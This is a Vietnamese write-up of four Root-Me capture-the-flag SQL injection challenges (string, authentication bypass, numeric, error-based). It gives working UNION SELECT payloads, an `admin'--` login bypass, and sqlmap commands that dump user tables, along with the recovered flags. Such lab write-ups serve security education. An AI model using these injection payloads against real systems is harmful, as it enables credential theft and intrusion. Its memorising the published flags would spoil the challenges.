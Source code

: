 
# SQL injection - String
CMS v 0.0.2

http://challenge01.root-me.org/web-serveur/ch19/

**Statement**: Retrieve the administrator password

## Cách làm
### Tìm chức năng dính lỗi SQLi
Sau khi truy cập vào link, ta thấy có các chức năng như trang chủ, đăng nhập, tìm kiếm

![image](https://github.com/aQ05/Write-up/assets/121664384/cf62bf7a-4325-4994-b71b-156e05f23b2f)

Để biết lỗi SQLi xảy ra ở chức năng nào thì ta chỉ cần nhập ký tự `1'` và lỗi SQLi xuất hiện tại ô tìm kiếm

![image](https://github.com/aQ05/Write-up/assets/121664384/85d78798-2c99-4f34-8e7a-e058ec73c2c8)

CSDL được sử dụng ở đây là SQLite3 nên ta sẽ khai thác trên SQLite3.
### Tìm số cột
Đầu tiên sử dụng lệnh `ORDER BY` để kiểm tra số cột cho phép.

Nhập lệnh `1’ order by 1--` và đến `1' order by 3--` thì bị lỗi.

![image](https://github.com/aQ05/Write-up/assets/121664384/37d2dd10-8e0d-48cd-b20b-4f44b58d6530)

Tức là CSDL này có 2 cột. Dùng lệnh `UNION SELCT` để khai thác dữ liệu.
### Exploit
Với SQLite3 (https://www.sqlite.org/faq.html), ta sẽ `SELECT` đến `SQLITE_SCHEMA`

![image](https://github.com/aQ05/Write-up/assets/121664384/7c379380-5410-4360-a210-8ae1eacafb85)

Gõ lệnh `1' union select name,sql from sqlite_master--`, ta sẽ biết được CSDL này có 2 bảng là `news` và `users` với lần lượt là tên cột, kiểu dữ liệu.

![image](https://github.com/aQ05/Write-up/assets/121664384/df32cc27-1c25-403a-9444-fa297dadad2f)

`news (CREATE TABLE news(id INTEGER, title TEXT, description TEXT))`

`users (CREATE TABLE users(username TEXT, password TEXT, Year INTEGER))`

Đề bài yêu cầu tìm password admin nên ta cần truy xuất dữ liệu từ bảng `users`. Thực thi câu lệnh  `1' union select username, password from users --`, ta sẽ tìm được password của admin: `admin (c4K04dtIaJsuWdi)`

![image](https://github.com/aQ05/Write-up/assets/121664384/c1ae054f-3d4b-4b73-ad7c-8784c82412cd)

Và đăng nhập thành công
![image](https://github.com/aQ05/Write-up/assets/121664384/fd7edfcd-7f0e-47d7-9a70-4b19e9e56cd0)

## Flag
`c4K04dtIaJsuWdi`

# SQL injection - Authentication
Authentication v 0.01

**Statement:** Retrieve the administrator password

## Cách làm
Truy cập link http://challenge01.root-me.org/web-serveur/ch9/, ta thấy 1 trang web có chức năng đăng nhập.

Để đăng nhập, nhập `admin'-- ` vào trường `username` với mật khẩu tùy ý.

![image](https://github.com/aQ05/Write-up/assets/121664384/b9d97aa9-71bc-4f07-bbc3-fc8be27c67e9)


Để tìm passwprd, `Ctrl U` để xem source code
![Screenshot 2023-11-05 132759](https://github.com/aQ05/Write-up/assets/121664384/3d6556f8-c513-46af-a414-7babe327713b)


## Flag
`t0_W34k!$`

# SQL injection - Numeric
CMS v 0.0.1

**Statement:** Retrieve the administrator password.
## Cách làm
Truy cập link http://challenge01.root-me.org/web-serveur/ch18/ 

![image](https://github.com/aQ05/Write-up/assets/121664384/969b2c02-4a25-4fc4-99ec-8c052788be0f)

Thêm ký tự `'` vào cuối url để tìm lỗi. Trang `Système de news` xuất hiện lỗi và ta sẽ khai thác trực tiếp trên url.

![image](https://github.com/aQ05/Write-up/assets/121664384/32929941-ecae-4b37-9598-4406d6a98148)

CSDL được sử dụng ở đây là SQLite3 nên ta sẽ khai thác trên SQLite3.
### Tìm số cột
Đầu tiên sử dụng lệnh `ORDER BY` để kiểm tra số cột cho phép.

Nhập lệnh ` order by 1--` vào cuối url và đến ` order by 4--` thì bị lỗi.

![image](https://github.com/aQ05/Write-up/assets/121664384/09be6067-6a96-4e3e-bd13-daf75ef9acf5)

Tức là CSDL này có 3 cột. Dùng lệnh `UNION SELCT` để khai thác dữ liệu.
### Exploit
Nhập lệnh ` union select 1,2,3--` 

![image](https://github.com/aQ05/Write-up/assets/121664384/6ffaccf9-ac92-4545-9926-affc9108ec7e)

Như vậy ta có thể khai thác tại cột thứ 2 và 3. Lấy tên bảng bằng cách dùng câu lệnh ` union select 1,2,sql from sqlite_master--`, ta thu được 2 bảng:

![image](https://github.com/aQ05/Write-up/assets/121664384/2af7f0ba-1ec4-4e75-9da1-4fa9efc7ca5d)

Đề bài yêu cầu tìm password admin nên ta cần truy xuất dữ liệu từ bảng `users`. Thực thi câu lệnh  ` union select 1,username, password from users --`, ta sẽ tìm được password của admin: `aTlkJYLjcbLmue3`.

![Screenshot 2023-11-05 144912](https://github.com/aQ05/Write-up/assets/121664384/e795ce1e-224c-43f5-bbdb-c4f59d1de201)


## Flag
`aTlkJYLjcbLmue3`




# SQL injection - Error
Exploiting SQL error

**Statement:** Retrieve administrator’s password.

## Cách làm
Truy cập link http://challenge01.root-me.org/web-serveur/ch34/ thấy có xuất hiện 2 page `Authentication` và `Contents`. 

![image](https://github.com/aQ05/Write-up/assets/121664384/94565777-0f2c-482d-9605-e62b350cdd4a)

Truy cập vào từng trang và nhập `'` ở cuối url thì trang `Contents` xuất hiện lỗi

![image](https://github.com/aQ05/Write-up/assets/121664384/461a61c0-68eb-4b0f-8c74-3b78b78d2e8d)

Sử dụng sqlmap khai thác với url ta sử dụng `-u`. Gõ lệnh `sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" --dbs` (`-dbs` là để lấy dữ liệu database).

![Screenshot 2023-11-05 204442](https://github.com/aQ05/Write-up/assets/121664384/9997414a-9c0c-482a-9b7d-391390dd453e)

Có 3 database trả về, tuy nhiên ta chỉ cần chú ý đến database `public` và thực hiện lấy các tables trên db này.
Gõ lệnh: `sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public --tables`

(`-D public` là để lấy kết quả trong database public).

![Screenshot 2023-11-05 204559](https://github.com/aQ05/Write-up/assets/121664384/b1aa43ab-37e9-4fe4-9c57-728854912f59)

Ta có 1 bảng là `m3mbr35t4bl3`. Thực hiện lấy data trong bảng. Gõ lệnh: `sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public -T m3mbr35t4bl3 --dump`
![Screenshot 2023-11-05 204707](https://github.com/aQ05/Write-up/assets/121664384/6f2714ff-2dca-4b0a-bd3f-f4fd33b7d4f8)

## Flag
`1a2BdKT5DIx3qxQN3UaC`


